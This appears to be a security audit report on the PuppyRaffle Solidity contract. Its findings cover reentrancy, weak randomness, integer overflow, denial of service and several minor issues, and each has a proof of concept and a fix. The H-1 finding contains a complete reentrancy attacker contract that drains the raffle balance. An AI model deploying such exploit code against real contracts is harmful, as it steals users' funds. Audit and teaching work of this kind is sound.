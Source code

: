 ## HIGH

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance

IMPACT: HIGH
LIKELYHOOD: HIGH

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

```javascript
      function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```

a player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund`function again and claim another refund. They could continue the cycle till the contract balance is drianed.

**Impact:** All fees paid by raffle entrants could be stolen by the mailicious participant.

**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.

**Proof of Code**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
    function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        // attack
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker contract balance: ", startingAttackContractBalance);
        console.log("starting contract balance: ", startingContractBalance);

        console.log("ending attacker contract balance: ", address(attackerContract).balance);
        console.log("ending contract balance: ", address(puppyRaffle).balance);
    }
```

And this contract as well.

```javascript
    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally we should move the event emission up as well.

```diff
     function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows users to influence or predict the winner and influence or predict the winning puppy.

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable find number. A predictable number is not a good random number. Malicious users can manipulate these values or know them ahead of time to chose the winner of the raffle themsleves.

_Note:_ This additionally means users could front-run this function and call `refund` if they see they are not the winner.

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless if it becomes a gas war as to who wins the raffle.

**Proof of Concept:**

1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrando] (https://soliditydeveloper.com/prevrandao). `block.difficulty` was recently replaced prevrando.
2. User cane mine/mnanipulate their `msg.sender` value to result in their address being used to generate the winner!.
3. Users can revert their `selectWinner` transaction if they don't like the winner or resulting puppy.

Using on-chain vlaues as a randomness seed is a [well-dcoumented attack vector] (https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using a cryptographically provable random number generator such as a Chainlink VRF.

### [H-3] Integer Overflow of `PuppyRaffle::totalFees` loses fees

**Description:** In solidity versions prior to `0.8.0` integers were subject to integer overflows.

```javascript
    uint64 myVar = typ(uint64).max
    // 18446744073709551615
    myVar = myVar + 1
    // myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFess` are accumulated for the `feeAddress` to collect later in `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

1. We conclude a raffle of 4 players
2. We then have 89 players enter a new raffle, and conclude the raffle
3. `totalFess` wil be:

```javascript
totalFees = totalFees + uint64(fee);
// aka
totalFees = 800000000000000000 + 1780000000000000000;
// and the will overflow!
totalFees = 153255926290448384;
```

4. You will not be able to withdraw, due to the line in `PuppyRaffle::withdrawFees`:

```javascript
require(address(this).balance ==
  uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you cold use `selfdesctruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not the intended design of the protocol. At some point there will be too much `balance` in the contract that the above `require` will be impossible to hit.

<details> 
<summary>Code</summary>

```javascript
    function testTotalFeesOverflow() public playersEntered {
        // We finish a affle of 4 to collect some fees
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 800000000000000

        // We then have 89 players enter a new raffle
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for(uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // And here is where the issue occurs
        // We will now have fewer fees even though we just finished a second raffle
        puppyRaffle.selectWinner();

        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending total fees", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are alos unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

</detals>

**Recommended Mitigation:** There are a few possible mitigations.

1. Use a newer version of solidity and a `uint256` instead of `uint64` for `PuppyRaffle::totalFees`
2. You could also use the `SafeMath` library of OpenZepplin for version 0.7.6 of solidity, however you would still have a hard time with the `uint64` type if too many fees are collected.
3. Remove the balance check from `PuppyRaffle::withdrawFees`

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

There are more attack vectors with that final require, so we recommend removing it regardless.

## MEDIUM

### [M-1] Looping through the players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, incrementing gas costs for future entrants

IMPACT: MEDIUM /HIGH
LIKELIHOOD: MEDIUM

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make creating higher gas costs.

```javascript
// @audit DoS Attack
@>    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have 2 sets of 100 players enter, the gas costs will be as such:

- 1st 100 players: 23720528
- 2nd 100 players: 88010118

This is more than 3x more expensive for the second 100 players

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`.

```javascript
    function test_denialOfService() public {
        // address[] memory players = new address[](1);
        // players[0] = playerOne;
        // puppyRaffle.enterRaffle{value: entranceFee}(players);
        // assertEq(puppyRaffle.players(0), playerOne);
        vm.txGasPrice(1);

        // let's enter 100 players
        // Output for the first 100 players gas used - 23720528
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        // see how much gas it costs
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first 100 players: ", gasUsedFirst);

        // now for the second 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum); // for numbers from -> 100, 101, 102, etc.
        }

        // see how much gas it costs
        // Output for the second 100 players gas used - 88010118
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();

        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;
        console.log("Gas cost of the second 100 players: ", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);
    }
```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. users can make new wallet address anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

### [M-2] Smart contract wallets raffle winners without a `receive` or a `fallback` function will block the start of a new contest.

**Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting th elottery. However, if the winner is a smart contract wallet that rejects payment, the lottery would not be able to restart.

Users could easily cal the `selectWinner` function again and non-wallet entrants could enter, but it could cost a lot due to the duplicate check and a lottery reset could get very challenging.

**Impact:** The `PuppyRaffle:selectWinner` function could revert many times, making a lottery reset difficult.

Also true winners would not get paid out and someone else could take thier money!

**Proof of Concept:**

1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

1. Do not allow smart contract wallet entrants (not recommended)
2. Create a mapping of addresses -> payout amounts so winners can pull their funds out themselves with a new `claimPrize` function, putting the owness on the winner to claim their prize. (Recommended)

## Low

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```javascript
    /// @return the index of the player in the array, if they are not active, it returns 0
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```

**Impact:** A player at index 0 may incorrectly think they have not entered the raffle and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly due to the funstion documentation.

**Recommended Mitigation:** The easiest recommendation would be to revert if the player is not in the array instead of returning 0.

Youd could also reserve the 0th position for any competition, but a better solution might be to return an `int256` where the function returns -1 if the player is not acitve.

## Gas

### [G-1] Unchanged state variables should be declared constant or immutable

Reading from storage is much more expensive than reading from a constant or immutable variable.

Instances:

- `PuppyRaffle::raffleDueation` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage variable in a loop should be cached

Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient.

```diff
+       uint256 playersLength = players.length
-       for (uint256 i = 0; i < players.length - 1; i++) {
+        for (uint256 i = 0; i < playersLength - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
+            for (uint256 j = i + 1; j < playersLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

## Informational

### [I-1]: Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of pragma solidity ^0.8.0; use pragma solidity 0.8.0;

- Found in src/PuppyRaffle.sol: 32:23:35

### [I-2] Using an outdated version of solidity is not recommended.

**Description**

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please use a newer version like `0.8.18`

Please see [slither] https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity documentation for more information.

### [I-3]: Missing checks for `address90)` when assigning values to address state variables

Assigning values to address state variables without checking for `address(0)`.

- Found in src/PuppyRaffle.sol: 8662:23:35
- Found in src/PuppyRaffle.sol: 3165:24:35
- Found in src/PuppyRaffle.sol: 9809:26:35

### [I-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice

It's best to keep code clean and follow CEI (Checks, Effects, Interacstions).

```diff
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+       (bool success,) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize pool to winner");

```

### [I-5] Use of "Magic" numbers is discouraged

It can be confusing to see number literals in a codebase, and it's much more readable if the numbers are given a name.

Examples:

```javascript
    uint256 prizePool = (totalAmountCollected * 80) / 100;
    uint256 fee = (totalAmountCollected * 20) / 100;
```

Instaed you can use:

```javascript
uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
uint256 public constant FEE_PERCENTAGE = 20;
uint256 public constant POOL_PRECISION = 100;
```

### [I-6] State changes are missing events

### [I-7] `PuppyRaffle::_isActivePlayer` is never used and should be removed
